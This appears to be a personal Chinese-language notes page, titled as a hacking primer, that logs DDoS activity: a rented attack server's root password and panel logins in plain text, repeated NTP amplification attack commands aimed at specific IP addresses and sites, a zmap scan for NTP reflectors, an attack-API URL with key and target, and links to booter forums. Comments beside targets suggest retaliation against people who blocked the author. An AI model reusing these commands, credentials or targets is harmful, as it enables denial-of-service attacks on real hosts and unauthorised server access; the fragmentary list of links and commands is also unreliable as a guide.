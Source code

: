 ```yaml
---
title: hack入门调教
date: 2021-08-20 18:07:21
tags: Hack
categories: Hack
---
```


### hack入门调教

扫描：https://my.ishosting.com/en/restore ip 5.45.93.56 发包： 产品名称：SJ-美国独立服务器E3-1230系列 02 系统：CentOS-7.6 64位 主IP：154.31.41.118 远程端口：32343 系统账号：root 系统密码：bAGmXQ1W0q5jftJS 高防IP分配： 内网地址分配： IP地址分配： 154.31.41.139 154.31.41.167

103.164.62.159 http://www.bfkq.cn/ 外网面板地址: http://154.31.41.118:16585/305855a0 内网面板地址: http://154.31.41.118:16585/305855a0 username: bbppm91i password: 2672e7d4

抚摸：./ntp 103.100.211.198 80 ntpamp.txt 1000 -1 100 screen zmap -i eth0 -p 123 -M udp --probe-args=file:/home/dd/ntp_123_monlist.pkt -o monlist_fingerprint3.txt https://www.shellop.com/archives/14  教程 http://sj.fahezi.com/#/passport/register?agentid=1&invite=352920 http://my15.gzkgtjy.cn/ https://daifa.suzhoutianyue.cn/newer/ http://my15.gzkgtjy.cn/#post4 /home/ntp 120.78.142.196 80 /home/ntpamp.txt 1000 -1 100 不听话 /home/ntp 119.39.205.78 80 /home/ntpamp.txt 1000 -1 100  119.39.205.78

http://suan.uhu0.com/ 111.223.247.130 拉黑我？ 114.132.244.245 111.223.247.130 http://baodan.taotao889.cn:10001/index.php/Home/Public/register/id/23.html

/home/ntp 103.216.152.178 80 /home/ntpamp.txt 1000 -1 100 不听话 http://117.24.14.100:8100/frame.html?v=20230028 https://f33.com.cn/# http://sotao8.cn/ 拉黑我 https://shop.vcfaka.cn/ 拉黑我

http://47.243.48.56:7188/

https://candylab.net/design/cross-cdn-ip/ https://x.threatbook.com/ 反查

代码https://blog.csdn.net/qq_35150992/article/details/118547659

广告投放：https://www.9797.com.cn/ https://www.9797.com.cn/ http://6381.com.cn/

cd /home

/home/ntp 111.223.247.131 80 /home/ntpamp.txt 150 -1 100 

https://www.zhihu.com/question/31184744 cc攻击牛逼 https://www.aeys.org/ hack https://www.aeys.org/thread-3578-1-1.html https://www.aeys.org/thread-5806-1-1.html

https://www.panamaserver.com/cp/clientarea.php 新发包机 https://zhuanlan.zhihu.com/p/114818780 靠谱 https://www.juyifx.cn/article/296657855.html 教程

https://www.aeys.org/thread-3578-1-1.html https://www.qazyw.com/qazy/17718  api对接

http://154.31.41.118/ntp.php?key=aeys&host=103.100.211.198&port=80&time=1000&method=ntp https://www.mfisp.com/help/network/1137.html 

https://bandwagonhost.com/vps-hosting.php 试试看






